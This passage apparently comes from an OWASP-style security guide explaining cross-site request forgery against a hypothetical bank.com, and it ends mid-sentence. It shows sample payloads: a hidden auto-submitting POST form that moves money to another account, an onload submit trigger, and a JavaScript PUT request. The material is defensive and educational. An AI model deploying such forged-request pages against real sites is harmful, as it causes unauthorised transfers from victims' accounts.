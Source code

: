 A real life example of CSRF attack on an application using GET was a
[uTorrent
exploit](https://www.ghacks.net/2008/01/17/dos-vulnerability-in-utorrent-and-bittorrent/)
from 2008 that was used on a mass scale to download malware.

#### POST scenario

The only difference between GET and POST attacks is how the attack is
being executed by the victim. Let's assume the bank now uses POST and
the vulnerable request looks like this:

`POST http://bank.com/transfer.do HTTP/1.1`

`acct=BOB&amount=100`

Such a request cannot be delivered using standard A or IMG tags, but can
be delivered using a FORM tag:

	<form action="<nowiki>http://bank.com/transfer.do</nowiki>" method="POST">

	<input type="hidden" name="acct" value="MARIA"/>
	<input type="hidden" name="amount" value="100000"/>
	<input type="submit" value="View my pictures"/>

	</form>

This form will require the user to click on the submit button, but this
can be also executed automatically using JavaScript:

	<body onload="document.forms[0].submit()">

	`<form...`

#### Other HTTP methods

Modern web application APIs frequently use other HTTP methods, such as
PUT or DELETE. Let's assume the vulnerable bank uses PUT that takes a
JSON block as an argument:

	`PUT http://bank.com/transfer.do HTTP/1.1`

	`{ "acct":"BOB", "amount":100 }`

Such requests can be executed with JavaScript embedded into an exploit
page:

	<script>

	`function put() {`
	`   var x = new XMLHttpRequest();`
	`   x.open("PUT","http://bank.com/transfer.do",true);`
	`   x.setRequestHeader("Content-Type", "application/json"); `
	`   x.send(JSON.stringify({"acct":"BOB", "amount":100})); `
	`}`

	</script>

	<body onload="put()">

Fortunately, this request will **not** be executed by modern web
browsers thanks to [same-origin policy](Same-Origin_Policy "wikilink")
restrictions. This restriction is enabled by default unless the target
web site explicitly opens up cross-origin requests from the attacker's
(or everyone's) origin by using
[CORS](HTML5_Security_Cheat_Sheet#Cross_Origin_Resource_Sharing "wikilink")
with the following header:
